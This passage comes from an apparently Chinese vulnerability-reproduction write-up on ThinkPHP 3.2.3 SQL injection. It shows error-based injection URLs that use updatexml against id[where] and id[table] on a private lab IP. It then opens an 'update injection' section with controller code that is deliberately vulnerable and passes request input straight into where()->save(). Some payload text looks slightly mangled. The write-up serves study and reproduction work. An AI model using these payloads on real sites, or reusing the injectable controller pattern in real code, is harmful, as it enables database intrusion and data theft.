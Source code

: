 ```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[where]=1%20and%20updatexml(1,concat(0x7e,user(),0x 7e),1)‐‐
```

**table:** 

```
http://192.168.10.53/web/3.2.3/index.php?m=Home&c=Index&a=test&id[table]=user%20where%201%20and%20updatexml(1,concat x7e,user(),0x7e),1)‐‐&id[where]=1
```

[![](http://zone.secevery.com/uploads/article/20191220/50ff54ea3e1a44f4be2dfba634b82aaf.png)](http://zone.secevery.com/uploads/article/20191220/50ff54ea3e1a44f4be2dfba634b82aaf.png)

  **三，ThinkPHP 框架 3.2.3 update 注入漏洞**  
**影响版本**  
Thinkphp<=3.2.3

  **漏洞分析参考：**  
https://www.seebug.org/vuldb/ssvid-97234

  **漏洞复现（内网环境）**  
**在 Application/Home/Controller/UserController.class.php 添加以下代码:**

```
<?php



namespace Home\Controller;

use Think\Controller;



class UserController extends Controller {



    public function index(){



        $User = M("user");

        $user['id'] = I('id');

        $data['name'] = I('name');

        $data['pass'] = I('pass');

        $valu = $User->where($user)->save($data);

        var_dump($valu);

    }

}
```
